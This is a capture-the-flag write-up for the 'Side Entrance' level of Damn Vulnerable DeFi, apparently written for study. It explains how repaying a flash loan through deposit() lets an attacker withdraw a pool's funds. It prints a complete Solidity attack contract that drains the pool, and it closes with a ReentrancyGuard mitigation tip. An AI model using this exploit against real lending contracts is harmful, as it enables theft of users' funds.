 # Level 4 : Side entrance

Key point here is to really understand the flow of execution in `flashLoan()`.

In this contract the first thing to understand is that it is designed for 2 kind of people : 

- Suppliers will use the `deposit()` and `withdraw()` functions
- “FlashLoaners” will use this function to get ethereum , do things with it and then pay it back

The vulnerability here is in the accounting method of the mapping between address and balances. There is no check whether the amount to withdraw are ethers from a suppliers or from a “flashLoaners” that payed back a flashloans, in both way balance is updated.

There is one check in `flashLoan()` : `require(address(*this*).balance >= balanceBefore, "Flash loan hasn't been paid back");` however `address(this).balance` which represent the balance of the pool contract **can be updated using the `deposit()` function** and using the `deposit()` function, our balance will be updated, making it possible to withdraw the fund just payed back 🙂

 

The only thing to do is a `flashLoan()` of all ethers available, receive it within`execute{value:amount}()`, give them back using `deposit()` within the `execute()` function so that our balance as a depositer will be updated and then we can easily call the `withdraw()` function to withdraw our fresh deposit.

Flow of execution will be like that

![Untitled](images/4.png)

source : [https://vyorkin.org/posts/ctf-walkthrough-damn-vulnerable-defi-4-side-entrance/](https://vyorkin.org/posts/ctf-walkthrough-damn-vulnerable-defi-4-side-entrance/)

One thing I forgot to write is that we need a contract to interact with the pool : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import './SideEntranceLenderPool.sol';

contract AttackSideEntrance{
  SideEntranceLenderPool pool;
  address payable owner;
  constructor(address pool_) {
    pool=SideEntranceLenderPool(pool_);
    owner=payable(msg.sender);
  }
  function attackSideEntrance(uint256 amount_) public {
    require(msg.sender == owner);
    pool.flashLoan(amount_);
    pool.withdraw();
  }
  function execute() external payable {
    require(msg.sender == address(pool));
    pool.deposit{value:address(this).balance}();
  }
  receive() external payable{
    owner.transfer(address(this).balance);
  }
}
```

then implement it in our `side-entrance.challenge.js` : 

## Key Security Takeaways

- Use the `ReentrancyGuard` from OpenZeppelin to fix the **[cross-function reentrancy](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/#cross-function-reentrancy)**.